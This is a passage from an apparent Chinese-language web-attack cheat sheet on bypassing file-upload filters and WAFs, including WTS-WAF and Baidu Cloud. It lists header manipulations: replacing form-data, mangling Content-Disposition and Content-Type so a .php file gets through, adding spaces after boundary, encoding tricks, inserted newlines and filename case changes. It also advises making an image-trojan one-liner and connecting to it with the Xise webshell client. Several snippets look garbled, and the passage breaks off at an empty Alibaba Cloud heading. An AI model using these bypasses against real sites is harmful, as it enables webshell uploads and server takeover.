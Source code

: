6.HTTP header 属性值绕过

```
Content-Disposition: form-data; 
我们通过替换form-data 为*来绕过
Content-Disposition: *; 

```

7.HTTP header 属性名称绕过

```
源代码:
Content-Disposition: form-data; Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; 085733uykwusqcs8vw8wky.png
C.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".

```

8. 等效替换绕过

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。

```

9. 修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等
```

#### WTS-WAF 绕过上传

```
原内容：
Content-Disposition: form-data; 
添加回车
Content-Disposition: form-data; 

```

#### 百度云上传绕过

```
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
Content-Disposition: form-data; 

```

#### 阿里云上传绕过
